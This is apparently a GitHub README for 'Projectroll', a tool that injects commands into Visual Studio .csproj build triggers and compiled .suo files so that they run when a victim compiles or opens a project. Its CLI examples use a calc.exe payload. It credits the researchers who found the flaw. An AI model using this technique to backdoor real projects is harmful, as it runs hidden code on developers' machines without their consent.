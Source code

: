 # Projectroll

**Projectroll** exploits vulnerabilities in Visual Studio triggers, targeting project files like `.sln` and `.vcxproj`/`.csproj`. It demonstrates how arbitrary commands can be executed without compilation.

## Features

### 1. **Using triggers**

Executes arbitrary commands when the specified input trigger is activated (ex: `GetFrameworkPaths`, `Compile`, `BeforeBuild`)

#### ⚠️ WARNING: Deleting the lines which contains the modified XML will break it.

(CLI) Example of **Module 1 (Project)** usage: 
```
projectroll --module=1 --path=C:\Anywhere\Project**.csproj** --trigger=Compile --command="start calc.exe" --ps=false
```
Opens calc.exe when the user compiles project.

### 2. **Using compiled .suo**
Executes arbitrary commands when user opens project.

#### ⚠️ WARNING: Deleting the .vs folder/.suo file will break it.

(CLI) Example of **Module 2 (Compiled Suo)** usage:
```
projectroll --module=2 --path=C:\Anywhere\.suo --command="cmd /c start calc.exe"
```
Opens calc.exe when the user opens project.

##### - Btw i added noob version that is easier to use, you can use it by just opening the .exe and it will ask you the parameters of the module you selected as well :p

## Credits
The vulnerability has been discovered by cjm00n & edwardzpeng (https://x.com/edwardzpeng)

VS.DE Visual Studio .suo Deserialization Exploit - https://github.com/moom825/visualstudio-suo-exploit

